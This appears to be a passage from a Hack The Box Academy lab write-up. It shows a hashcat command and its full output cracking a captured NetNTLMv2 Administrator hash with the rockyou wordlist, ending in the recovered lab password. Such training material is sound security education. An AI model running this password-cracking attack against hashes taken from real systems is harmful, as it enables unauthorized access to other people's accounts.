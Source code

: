 ```shell
hashcat -m 5600 Administrator.hash /usr/share/wordlists/rockyou.txt
```

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~]
└──╼ [★]$ hashcat -m 5600 Administrator.hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 LINUX) - Platform #1 [Intel(R) Corporation]
==================================================================
* Device #1: AMD EPYC 7543 32-Core Processor, 7854/7918 MB (1979 MB allocatable), 4MCU

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #2 [The pocl project]
=============================================================================================================================
* Device #2: pthread-AMD EPYC 7543 32-Core Processor, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ADMINISTRATOR::WIN-41LARS8U72P:88096cf13cfe8b60:7b6e152220b8ad66a0a9bcc19a43743f:0101000000000000802ccee3671cda017bbbef11211a106e0000000002000800370053004f00310001001e00570049004e002d00450051<SNIP>:christian1
```

